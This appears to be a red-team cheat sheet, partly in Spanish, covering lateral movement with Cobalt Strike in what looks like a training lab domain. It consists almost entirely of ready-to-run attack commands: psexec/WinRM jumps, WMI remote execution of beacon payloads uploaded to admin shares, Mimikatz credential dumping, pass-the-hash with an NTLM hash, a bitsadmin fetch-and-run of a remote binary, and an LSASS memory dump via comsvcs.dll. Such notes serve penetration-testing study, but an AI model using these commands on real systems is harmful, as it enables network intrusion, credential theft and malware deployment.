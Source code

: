 

---
## 🏃‍♂️ Lateral Movements 

```batch
#(Jump)
jump psexec64 SRV-1 WKSTN-1-PIVOT4444
jump psexec_psh SRV-1 WKSTN-1-PIVOT4444
jump winrm64 SRV-1 WKSTN-1-PIVOT4444

#(Ejecutar un comando de powershell remotamente)
remote-exec winrm dc-2 Get-MpThreatDetection | select ActionSuccess, DomainUser, ProcessName, Resources

#(wmi utiliza "process call create" de wmic sirve para ejecutar un binario o dll)
remote-exe wmi srv-1 cmd.exe /c calc.exe
remote-exe wmi srv-2 notepad.exe
remote-exec wmi WINDOWSSERVER rundll32 c:\programdata\beacon.dll,StartW

cd \\sql-1\c$\Programdata
upload beacon-svc.exe
remote-exec wmi sql-1 c:\Programdata\beacon-svc.exe
(link|connect) sql-1 

#(Wmic Example)
shell wmic /node:"srv-1.dev.cyberbotic.io" process call create "c:\programdata\pivot-4444.exe"

#(Wmi Examples)
remote-exec wmi SRV-1 c:\Programdata\pivot-4444.exe

### Pass the hash rc4 - ntlm
lsadump::sam 			 		-> Only Local Accounts
sekurlsa::logonpasswords	    -> Usuarios logueados en el sistema

#(cobalt)
pth DEV\jking 4ffd3eabdce2e158d923ddec72de979e

ls \\srv-2\c$
```

// Plus Remote-exec
```powershell
start wmic /node:@C:\\share$\\comps1.txt /user:"DOMAIN\\Administrator" /password:"PASSWORD" process call create "cmd.exe /c bitsadmin /transfer fx166 \\\\dc-2\\share$\\fx166.exe %APPDATA%\\fx166.exe & %APPDATA%\\fx166.exe"

#(Dump Credentials LSSAS)
shell wmic /node:[target] process call create "cmd /c rundll32.exe C:\\windows\\System32\\comsvcs.dll, MiniDump PID C:\\ProgramData\\lsass.dmp full"

```
